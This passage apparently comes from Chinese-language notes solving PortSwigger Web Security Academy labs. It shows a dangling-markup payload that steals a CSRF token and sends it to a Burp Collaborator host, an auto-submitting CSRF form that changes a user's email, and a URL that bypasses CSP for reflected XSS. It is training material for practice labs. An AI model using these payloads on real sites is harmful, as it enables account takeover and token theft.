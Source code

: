 ### 題目解釋

### 解答


可以撿到 CSRF Token

```
<script>
if(window.name) {
        var re = /[A-Za-z0-9]{32}/;
        var csrf_token = window.name.match(re)[0];
	new Image().src='http://' +csrf_token + '.im8ye4hqxv6jyov53tornhnz9qfh36.burpcollaborator.net/?meow='+csrf_token;
	} else {
		location = 'https://ac2b1fc91e9da617c0d53285003500f9.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://exploit-ac431f951e74a6d7c0b9321201c000a1.web-security-academy.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```

但要注意 DNS 不分大小寫 QQ

Token : `Bl37LgBHPNCjyhmPRfrgyqZZtdQMX4oj`

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->

  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac2b1fc91e9da617c0d53285003500f9.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;evil&#45;user&#46;nets" />
      <input type="hidden" name="csrf" value="Bl37LgBHPNCjyhmPRfrgyqZZtdQMX4oj" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```


## [Lab: Reflected XSS protected by CSP, with CSP bypass](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-bypass)
### 題目敘述
 This lab uses CSP and contains a reflected XSS vulnerability.

To solve the lab, perform a cross-site scripting attack that bypasses the CSP and calls the alert function.

Please note that the intended solution to this lab is only possible in Chrome.
### 題目解釋
### 解答

```
https://acee1feb1f5b0d81c09e19f700e100ca.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27
```
